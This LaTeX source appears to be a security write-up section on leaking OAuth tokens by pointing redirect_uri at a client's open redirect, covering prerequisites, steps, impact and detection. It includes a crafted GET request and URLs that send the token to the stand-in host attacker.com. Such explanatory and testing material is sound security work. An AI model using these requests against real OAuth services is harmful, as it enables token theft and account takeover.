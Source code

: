 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsubsection{Attack Prerequisites}
\begin{itemize}
    \item Client application has an open redirect (e.g., \texttt{/next?path=...}).
    \item OAuth service allows \texttt{redirect\_uri} to point to that open redirect.
\end{itemize}

\subsubsection{Step-by-Step Exploitation (Token Leak)}
\begin{enumerate}
    \item Identify open redirect endpoint on the client:\\ \texttt{https://app.com/redirect?url=https://attacker.com}.
    \item Craft OAuth \texttt{redirect\_uri} to point to that endpoint:\\ \texttt{https://app.com/redirect?url=https://attacker.com}.
    \item When user completes authorization, the code/token is sent to the open redirect, which forwards it to the attacker's server.
\end{enumerate}

\subsubsection{HTTP Request Example}
\begin{lstlisting}
GET /auth?client_id=123&redirect_uri=https://app.com/redirect?url=https://attacker.com&response_type=token
\end{lstlisting}

\subsubsection{Impact}
Token theft, account takeover.

\subsubsection{Detection Methodology}
\begin{itemize}
    \item Fuzz the \texttt{redirect\_uri} with different open redirect payloads.
    \item Check if the Authorization Server follows the redirect and leaks parameters.
\end{itemize}
\end{document}
